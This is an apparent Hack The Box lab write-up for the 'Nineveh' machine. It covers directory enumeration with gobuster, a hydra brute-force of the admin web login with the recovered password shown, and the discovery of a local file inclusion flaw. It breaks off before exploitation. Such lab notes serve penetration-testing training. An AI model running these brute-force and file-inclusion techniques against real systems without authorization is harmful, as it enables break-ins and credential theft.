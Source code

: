# 10 - nineveh

# 10.10.10.43
There is either a hidden file or a misconfiguration.

![](vx_images/4321754148800.png)

# nineveh.htb

![](vx_images/577838706323.png)

# Gobuster
```bash
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/nineveh]
└─$ gobuster dir -u nineveh.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster/nineveh.htb -x ".php,.html,.txt" -t 100
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://nineveh.htb
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
2021/05/29 10:57:25 Starting gobuster in directory enumeration mode
===============================================================
/info.php             (Status: 200) [Size: 83690]
/index.html           (Status: 200) [Size: 178]  
/department           (Status: 301) [Size: 315] [--> http://nineveh.htb/department/]
/server-status        (Status: 403) [Size: 299]                                     
                                                                                    
===============================================================
2021/05/29 11:07:02 Finished
```


# info.php

![](vx_images/4294005505415.png)

# department

 ![](vx_images/546731831166.png)

# Page Source 
![](vx_images/3465595779570.png)

It says MySQL is installed and there is something wrong with the login page, we can try sql injection on it. And **amrois** &  **admin** could be valid usernames

# Invalid password
If the request passes the username and fails at password check it errors as **Invalid Password!**, if the request fails at username it says **Invalid Username!**

![](vx_images/4489430466212.png)

The username **admin** looks like a valid username because **Invalid Password** appears instead of **Invalid Username** so let's try bruteforcing the password.

# Hydra
```bash
──(kali㉿kali)-[10.10.14.9/23]-[~/htb/nineveh]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt nineveh.htb http-post-form '/department/login.php:username=^USER^&password=^PASS^:Invalid'
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-05-29 12:16:21
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://nineveh.htb:80/department/login.php:username=^USER^&password=^PASS^:Invalid
[STATUS] 1809.00 tries/min, 1809 tries in 00:01h, 14342590 to do in 132:09h, 16 active
[80][http-post-form] host: nineveh.htb   login: admin   password: 1q2w3e4r5t
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-05-29 12:18:51
```

Creds
* login: admin
* password: 1q2w3e4r5t

# Admin login

![](vx_images/5198237022690.png)

# Notes

![](vx_images/4257191837034.png)


# Local file inclusion
![](vx_images/5423064691678.png)

There is a local file inclusion on the link, we can view any file we want as long as *notes* variable contains the word *Notes*. if you remove a character from the end of the string it will show you some error,  I think that's because there is a check before *include*, if the filename doesn't contain the word *Nodes* it will say "**No Note is selected**" and won't even try to include the file.


![](vx_images/2588699296442.png)

If it contains the word Nodes and the file doesn't exists then you will be able to see the error.

Local file inclusion is good but it's best when chained with a file upload for remote code execution. Let's start enumerating ssl port now.
